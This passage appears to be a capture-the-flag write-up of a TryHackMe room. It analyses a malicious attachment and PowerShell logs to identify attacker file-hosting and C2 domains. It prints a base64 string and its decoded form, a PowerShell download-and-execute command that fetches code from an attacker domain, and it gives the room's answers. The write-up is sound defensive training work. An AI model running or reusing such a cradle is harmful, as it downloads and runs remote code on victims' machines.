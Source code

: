 <img width="1511" height="750" alt="Capture d'écran 2025-08-05 164206" src="https://github.com/user-attachments/assets/894eed71-ee3c-49e8-9c40-8d6e1c6426b4" />

Scrolling down, we find the Command Line Arguments.

**Answer** : aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==

The string found looks like Base64. By pasting it on CyberChef, we can decrypt the string :  

<img width="1536" height="517" alt="Capture d'écran 2025-08-05 164625" src="https://github.com/user-attachments/assets/9172b458-d426-4dd7-b2a3-017716e23957" />

It translates to : _iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')_

We can conclude that a PowerShell command is executed when the file is opened.

---

## **Part II : Endpoint Security**

In this part, we are tasked to analyse the PowerShell logs for signs of intrusion. 

We are provided with the `jq` tool to assist in our analysis.

Per Tryhackme, _“﻿jq is a lightweight and flexible command-line JSON processor. This tool can be used in conjunction with other text-processing commands.”_

Let’s take a first look at the logs.

<img width="868" height="383" alt="Capture d'écran 2025-08-05 165228" src="https://github.com/user-attachments/assets/eeaea09d-f5a6-4f37-acd4-a8be64c4190b" />

Parsing through the logs, we quickly understand that the field of interest is `ScriptBlockText`. So let’s filter out the other fields. 

<img width="1156" height="448" alt="Capture d'écran 2025-08-05 165443" src="https://github.com/user-attachments/assets/0a519df2-ff9d-4c53-8a83-f074e01c1688" />

Much of the output is irrelevant to our analysis, so we'll refine our filtering even further based on the current output : we can filter out all `ScriptBlockText = null`, `ScriptBlockText = Set-StrictMode [...]`.

<img width="1513" height="365" alt="Capture d'écran 2025-08-05 165900" src="https://github.com/user-attachments/assets/34b651cd-1395-4a46-bf15-6a31c62c4364" />


### **Q. What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)**

At the end of the first part of this room, we found which command was ran upon execution of the malicious attachment. The command mentioned a certain website which domain is **bpakcaging**. By filtering out all lines containing this domain, we obtain the following output. 
 
<img width="1505" height="254" alt="Capture d'écran 2025-08-05 171000" src="https://github.com/user-attachments/assets/f5d6f689-3268-4ff1-91e9-7d3583cf275c" />

We find two domains that coul have been used by the attacker.

